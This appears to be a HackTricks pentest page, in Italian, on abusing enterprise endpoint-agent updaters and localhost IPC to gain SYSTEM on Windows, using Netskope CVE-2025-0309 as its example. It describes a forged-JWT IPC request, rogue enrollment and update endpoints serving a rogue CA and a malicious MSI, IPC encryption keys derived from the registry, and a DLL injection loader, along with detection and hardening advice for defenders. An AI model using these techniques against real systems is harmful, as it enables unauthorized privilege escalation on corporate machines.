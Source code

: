 # Abusing Enterprise Auto-Updaters and Privileged IPC (e.g., Netskope stAgentSvc)

{{#include ../../banners/hacktricks-training.md}}

Questa pagina generalizza una classe di chain di escalation di privilegi locali Windows trovate in agenti endpoint aziendali e updater che espongono una superficie IPC a basso attrito e un flusso di aggiornamento privilegiato. Un esempio rappresentativo è Netskope Client for Windows < R129 (CVE-2025-0309), dove un utente con privilegi ridotti può costringere l'enrollment verso un server controllato dall'attaccante e poi consegnare un MSI malevolo che il servizio SYSTEM installa.

Idee chiave riutilizzabili contro prodotti simili:
- Abusare della localhost IPC di un servizio privilegiato per forzare il re‑enrollment o la riconfigurazione verso un server controllato dall'attaccante.
- Implementare gli endpoint di update del vendor, fornire una Trusted Root CA rogue, e puntare l'updater a un pacchetto maligno “signed”.
- Evitare controlli di firma deboli (CN allow‑lists), flag opzionali di digest, e proprietà MSI permissive.
- Se l'IPC è “encrypted”, derivare la key/IV da identificatori di macchina leggibili da tutti memorizzati nel registro.
- Se il servizio restringe i chiamanti per image path/process name, iniettare in un processo allow‑listed o spawnarne uno suspended e bootstrapare la tua DLL tramite una patch minimale del thread‑context.

---
## 1) Forzare l'enrollment verso un server dell'attaccante via localhost IPC

Molti agent includono un processo UI in user‑mode che comunica con un servizio SYSTEM tramite localhost TCP usando JSON.

Osservato in Netskope:
- UI: stAgentUI (bassa integrità) ↔ Service: stAgentSvc (SYSTEM)
- IPC command ID 148: IDP_USER_PROVISIONING_WITH_TOKEN

Exploit flow:
1) Crea un token JWT di enrollment i cui claim controllano l'host backend (es. AddonUrl). Usa alg=None così non è richiesta alcuna firma.
2) Invia il messaggio IPC che invoca il comando di provisioning con il tuo JWT e il nome del tenant:
```json
{
"148": {
"idpTokenValue": "<JWT with AddonUrl=attacker-host; header alg=None>",
"tenantName": "TestOrg"
}
}
```
3) Il servizio inizia a colpire il tuo server rogue per enrollment/config, p.es.:
- /v1/externalhost?service=enrollment
- /config/user/getbrandingbyemail

Note:
- Se la verifica del caller è basata su path/nome, origina la richiesta da un vendor binary allow‑listed (vedi §4).

---
## 2) Hijacking the update channel to run code as SYSTEM

Una volta che il client comunica con il tuo server, implementa gli endpoint attesi e instradalo verso un MSI dell'attaccante. Sequenza tipica:

1) /v2/config/org/clientconfig → Restituisci una configurazione JSON con un intervallo di aggiornamento molto breve, p.es.:
```json
{
"clientUpdate": { "updateIntervalInMin": 1 },
"check_msi_digest": false
}
```
2) /config/ca/cert → Restituisce un certificato CA in formato PEM. Il servizio lo installa nello Local Machine Trusted Root store.
3) /v2/checkupdate → Fornisce metadati che puntano a un MSI malevolo e a una versione falsa.

Bypassing common checks seen in the wild:
- Signer CN allow‑list: il servizio potrebbe controllare solo che il Subject CN sia uguale a “netSkope Inc” o “Netskope, Inc.”. La tua rogue CA può emettere un leaf con quel CN e firmare l'MSI.
- CERT_DIGEST property: includi una proprietà MSI benign chiamata CERT_DIGEST. Nessuna applicazione al momento dell'installazione.
- Optional digest enforcement: un flag di config (es., check_msi_digest=false) disabilita la validazione crittografica aggiuntiva.

Result: il servizio SYSTEM installa il tuo MSI da
C:\ProgramData\Netskope\stAgent\data\*.msi
eseguendo codice arbitrario come NT AUTHORITY\SYSTEM.

---
## 3) Forging encrypted IPC requests (when present)

From R127, Netskope ha incapsulato l'IPC JSON in un campo encryptData che sembra Base64. Reversing ha mostrato AES con key/IV derivati da valori di registro leggibili da qualsiasi utente:
- Key = HKLM\SOFTWARE\NetSkope\Provisioning\nsdeviceidnew
- IV  = HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\ProductID

Gli attacker possono riprodurre la cifratura e inviare comandi criptati validi da un utente standard. Suggerimento generale: se un agent improvvisamente “critta” il suo IPC, cerca device IDs, product GUIDs, install IDs sotto HKLM come material.

---
## 4) Bypassing IPC caller allow‑lists (path/name checks)

Alcuni servizi tentano di autenticare il peer risolvendo il PID della connessione TCP e confrontando il percorso/nome dell'immagine con vendor binaries allow‑listati situati sotto Program Files (es., stagentui.exe, bwansvc.exe, epdlp.exe).

Due bypass pratici:
- DLL injection in un processo allow‑listato (es., nsdiag.exe) e proxy dell'IPC dall'interno.
- Avviare un vendor binary allow‑listato in stato suspended e bootstrap della tua proxy DLL senza CreateRemoteThread (vedi §5) per soddisfare le regole di tamper imposte dal driver.

---
## 5) Tamper‑protection friendly injection: suspended process + NtContinue patch

I prodotti spesso distribuiscono un minifilter/OB callbacks driver (es., Stadrv) per rimuovere diritti pericolosi dagli handle verso processi protetti:
- Process: rimuove PROCESS_TERMINATE, PROCESS_CREATE_THREAD, PROCESS_VM_READ, PROCESS_DUP_HANDLE, PROCESS_SUSPEND_RESUME
- Thread: limita a THREAD_GET_CONTEXT, THREAD_QUERY_LIMITED_INFORMATION, THREAD_RESUME, SYNCHRONIZE

Un loader affidabile in user‑mode che rispetta questi vincoli:
1) CreateProcess di un vendor binary con CREATE_SUSPENDED.
2) Ottenere gli handle ancora permessi: PROCESS_VM_WRITE | PROCESS_VM_OPERATION sul processo, e un handle thread con THREAD_GET_CONTEXT/THREAD_SET_CONTEXT (o solo THREAD_RESUME se patchi il codice a un RIP noto).
3) Sovrascrivere ntdll!NtContinue (o un altro thunk mappato precocemente e garantito) con una piccola stub che chiama LoadLibraryW sul percorso della tua DLL, poi ritorna.
4) ResumeThread per attivare la stub in‑process, caricando la tua DLL.

Poiché non hai mai usato PROCESS_CREATE_THREAD o PROCESS_SUSPEND_RESUME su un processo già protetto (tu l'hai creato), la policy del driver è soddisfatta.

---
## 6) Practical tooling
- NachoVPN (Netskope plugin) automatizza una rogue CA, la firma di un MSI malevolo, e fornisce gli endpoint necessari: /v2/config/org/clientconfig, /config/ca/cert, /v2/checkupdate.
- UpSkope è un IPC client custom che costruisce messaggi IPC arbitrari (opzionalmente AES‑encrypted) e include l'injection tramite processo sospeso per farli originare da un binary allow‑listato.

---
## 7) Detection opportunities (blue team)
- Monitorare le aggiunte al Local Machine Trusted Root. Sysmon + registry‑mod eventing (vedi SpecterOps guidance) funziona bene.
- Segnalare esecuzioni di MSI avviate dal servizio dell'agent da percorsi come C:\ProgramData\<vendor>\<agent>\data\*.msi.
- Revisionare i log dell'agent per host/tenant di enrollment inaspettati, es.: C:\ProgramData\netskope\stagent\logs\nsdebuglog.log – cercare anomalie in addonUrl / tenant e provisioning msg 148.
- Allertare su client IPC localhost che non sono i signed binaries attesi, o che originano da alberi di processi figli insoliti.

---
## Hardening tips for vendors
- Vincolare enrollment/update hosts a una allow‑list rigorosa; rifiutare domini non trusted nel clientcode.
- Autenticare i peer IPC con primitive OS (ALPC security, named‑pipe SIDs) invece di controlli su image path/name.
- Tenere il materiale secret fuori da HKLM leggibile da tutti; se l'IPC deve essere encrypted, derivare le chiavi da secret protetti o negoziare su canali autenticati.
- Trattare l'updater come una superficie supply‑chain: richiedere una catena completa verso una CA trusted che controlli, verificare le firme dei package rispetto a chiavi pinned, e fallire closed se la validazione è disabilitata in config.

## References
- [Advisory – Netskope Client for Windows – Local Privilege Escalation via Rogue Server (CVE-2025-0309)](https://blog.amberwolf.com/blog/2025/august/advisory---netskope-client-for-windows---local-privilege-escalation-via-rogue-server/)
- [NachoVPN – Netskope plugin](https://github.com/AmberWolfCyber/NachoVPN)
- [UpSkope – Netskope IPC client/exploit](https://github.com/AmberWolfCyber/UpSkope)
- [NVD – CVE-2025-0309](https://nvd.nist.gov/vuln/detail/CVE-2025-0309)

{{#include ../../banners/hacktricks-training.md}}
